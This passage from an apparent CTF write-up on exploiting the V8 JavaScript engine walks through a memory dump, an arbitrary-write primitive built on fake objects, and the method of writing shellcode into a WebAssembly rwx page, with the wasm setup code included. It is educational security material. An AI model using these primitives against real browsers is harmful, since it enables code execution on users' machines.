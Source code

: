 ```asm
0x5a00808a13c:	0x400199999999999a	0x400a666666666666
0x5a00808a14c:	0x080406e908241909	0x000000080808a125
0x5a00808a15c:	0x0000000208040975	0x0000000008241909
0x5a00808a16c:	0x0000000008040975	0x0000000008040245
gef➤  p 0x05a00808a14d  - 0x20
$5 = 0x5a00808a12d
gef➤  p 0x05a00808a14d  - 0x20 - 1
$6 = 0x5a00808a12c


If we place a fake object at the address `0x5a00808a12c`, we would be able to get the access to the index 1, which would be the `0x5a00808a13c`. This way, the resulted fake object would point to the value of the address we wanted.
```
 As for the write function, that also worked on the same princpile of the read function:-

 ```js
 function arb_write(addr, value) {
    let fake = fakeobj(rw_helper_addr - 0x20n);
    rw_helper[1] = itof((0x8n << 32n) + addr - 0x8n, 64);
    fake[0] = itof(value, 64);
}
```
This, if we break down the logic:-

* This, if compared to the function of the `arb_read`, this instead of returning the first value from `fake` array which was the result of faking the object, it overwrites the value that was stored at the first index.

```js
return ftoi(fake[0], 64);
```

The above is from the `arb_read`.

```js
fake[0] = itof(value, 64);
```

This is done by overwriting the value which was *being returned* in ther `read` function, from here we will leverage for the inital writing to, what we refer as the [WebAssembly Page in JS](https://developer.mozilla.org/en-US/docs/WebAssembly), so initially, you cannot start off with the classic pwn challenges one could use the approach of overwriting the `__free_hook` with of `system`, then spawn a shell, in the v8 based challenges, mostly CTFs, this is done by creation of a wasm function which would result in the creation of a `rwx` permission page in the memory layout of the program, from here the approach is following:-

* Find the `rwx` segment address, calculate the address of it.
* Write the shellcode to the area of the `rwx` segment.
* Call the wasm function created earlier, since shellcode would be written to that function, calling it will eventually result in the shellcode execution.


```js

var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,
                               130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,
                               128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,
                               128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,
                               0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,0,11]);
var wasm_module = new WebAssembly.Module(wasmCode);
var wasm_instance = new WebAssembly.Instance(wasm_module);
var pwn = wasm_instance.exports.main;
```
